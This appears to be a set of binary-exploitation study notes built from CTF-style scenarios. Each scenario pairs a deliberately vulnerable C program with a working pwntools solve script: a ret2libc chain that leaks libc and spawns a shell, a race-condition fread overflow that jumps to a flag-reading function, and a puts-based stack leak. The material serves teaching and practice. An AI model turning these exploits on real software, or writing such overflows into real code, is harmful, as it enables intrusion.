



# Scenarios 

## Multiple BOFs > Ret2Libc

> PIE Disabled & NO Canary 

the idea of the challenge is to leak the libc address from the first BOF, by creating a rop chain that will call `puts` from .plt and pass the `puts.got` as an arguemnt. kowing the leaked address we calculate the libc address and execute system in the next rop chain in the second BOF.


> bianry.c

```c
#include<stdio.h>
#include<string.h>

void init_buffer(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void helper(void) {
  __asm__(
    "pop %rdi\n"
    "ret\n"
  );
}

void BOF(){
    char buf[0x10];
    fgets(buf, 0x100, stdin);
    size_t len = strcspn(buf, "\n");
    buf[len] = '\0';
}

void Exploit(){
    char buf[0x500]; // padding 

    BOF();
    puts("Hii");
    BOF();
}

void main(int argc, char **argv, char **envp){
    init_buffer();
    puts("Hii");
    Exploit();
}
```

> compile

```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./binary", checksec=False)
libc = ELF("./libc.so.6", checksec=False)  
context.binary = elf = exe
context.endian = 'little'
context.arch = 'amd64' 

io = process([exe.path])

rop = ROP(elf)
rop.raw(b'A'*40)
rop.raw(rop.ret.address)
rop.puts(elf.got["puts"])
rop.raw(elf.sym._start)

log.success(rop.dump())
io.sendlineafter(b'Hii\n', rop.chain())

leak = hex(unpack(io.recvline().rstrip(), "all"))
log.success(f'leaked puts.got = {leak}')
log.success(f'libc.symbols["puts"] = {hex(libc.symbols["puts"])}')

libc.address = int(leak, 16) - libc.symbols["puts"]
log.success(f'libc.address = {hex(libc.address)}')

bin_sh = next(libc.search(b'/bin/sh'))

rop2 = ROP(libc)
rop2.raw(b'A'*40)
rop2.raw(rop.ret.address)
rop2.system(bin_sh)

log.success(rop2.dump())
io.sendlineafter(b'Hii\n', rop2.chain())

io.interactive()
```

<br>
<br>

## Race Condition & BOF

> inspired by 'nahmnahmnahm' challenge - NahamCON CTF 2023

```note 
the challege gives you the ability to create and write into files and pass those files name to the running binary !
```

this is a great challenge that shows how using `fread` can lead to a BOF, by passing *nmemb* the value of `0x1000` & not closing the file when done using `fclose(fp)` (*causes seg fault*).

```c
size_t fread(void *restrict ptr, size_t size, size_t nmemb, FILE *restrict stream);

// The function fread() reads 'nmemb' items of data, each 'size' bytes long, from the stream pointed to by 'stream', storing them at the location given by 'ptr'.

// NOTE :: "nmemb" must equal the size/length of the buffe/array to be written
```

so the main idea was to send a file name that doesn't contains *flag*, and it's not a copy of it, and it's size doesn't exceed 80.

And here where we found the Race Condition problem that we can take advantage of !!

By creating a file (i.e. it's name *empty*) that contains only a single null byte, after the file accepted by the running process it will hold on running `getchar()` function, waiting for us to pass any char.

So we can abuse this by modifing the *empty* file content with a payload of our choice, that leads to a BOF. 

> binary.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

void winning_function(){
  char contents[256]; 
  FILE *f;

  puts("Welcome to the winning function!");
  f = fopen("flag.txt", "r");
  fread(contents, 1uLL, 0x100uLL, f);
  puts(contents);
  fclose(f);
}

void vuln(char *filename)
{
  char buffer[80];
  FILE *f;

  f = fopen(filename, "r");
  if ( f ){
    fread(buffer, 1uLL, 0x1000uLL, f);      // Vulnerable !! 
    printf("%s", buffer);
  }
  else{
    perror("fopen");
  }
}

int main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);

  struct stat st;
  char filename[128];
  memset(filename, 0, sizeof(filename));

  printf("Enter file: ");
  fgets(filename, 127, stdin);
  filename[strcspn(filename, "\n")] = 0;

  if (strstr(filename, "flag")){
    perror("filename contains flag");
    return -1;
  }
  else{

    if ( lstat(filename, &st) == -1 ){
      perror("stat");
    }
    else if ( (st.st_mode & 0xF000) == 40960 ){
      perror("is_symlink");
      return -1;
    }
    else if ( st.st_size <= 80 ){
      puts("Press enter to continue:");
      getchar();                            // we can abuse it !! 
      vuln(filename);
    }
    else{
      perror("File size");
      return -1;
    }
  }

  return 0;
}
```

> compile

```bash
$ gcc binary.c -o binary -no-pie
```

> solve.py

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./binary", checksec=False)  
context.binary = elf 

def main():
    io = process([elf.path])

    rop = ROP(elf)
    rop.raw(b"A"*104)
    rop.raw(rop.ret.address)
    rop.call(elf.sym.winning_function, [])
    log.success(f'rop.dump() == {rop.dump()}')

    f = open('empty', 'wb'); f.write(b'\x00'); f.close()
    io.sendlineafter(b'Enter file: ', b'empty')

    # while waiting for getchar()

    f = open('empty', 'wb'); f.write(rop.chain()); f.close()
    io.sendlineafter(b'Press enter to continue:\n', b'\n')
    
    io.interactive()

if __name__ == "__main__":
    main()
```

<br>
<br>

## Leaking with output stream functions

`Output stream functions` in C are a category of functions that facilitate the generation of output and writing it to an output stream. 

An output stream represents a destination where data can be written, such as the `standard output` (usually the console), files, network sockets, or other devices.

commonly used output stream functions in C include:
* puts()
* printf()
* fputs()
* fprintf()

```note
The `puts()` & `printf()` functions in C prints strings until it encounters a null character (`\x00`) in the provided string.
```

> testing.c

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char const *argv[])
{
	char Vuln[8];

	read(0, Vuln, 8 * 2);
	puts(Vuln); // OR :: printf("%s", Vuln);

	return 0;
}
```

```bash
$ ./testing  <<< $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*16)") | hexdump -C

# 00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
# 00000010  8a 71 58 c2 89 7f                                 |.qX...|
# 00000016
```

So What is going on ?? 

in the debugger before we call `read()`, under the EXPRESSIONS tab, we see the buffer `Vuln[8]`, and other data. 

<p align="left">
   
</p>

and after executing `read()` and passing the input "AAAA-BBBB-CCCC-DD", we can see how the buffer filled from right to left starting from the left column.

and we can see how the last 2 bytes from the buffer are `0x0a` & `0x00`.

so when calling `puts()` it will print up to the null byte !!

<p align="left">
   
</p>

so I tried to re-run the executable, and this time I passed this input "AAAA-BBBB-CCCC-DDX" (one extra byte).

and we can see how the last 2 bytes from the buffer are `0x58` & `0x0a`.      _where is the NULL BYTE ??_

we overwrite it. so when calling `puts()` this time it will print up to the null byte after the `0x7f` byte ^^.

<p align="left">
   
</p>


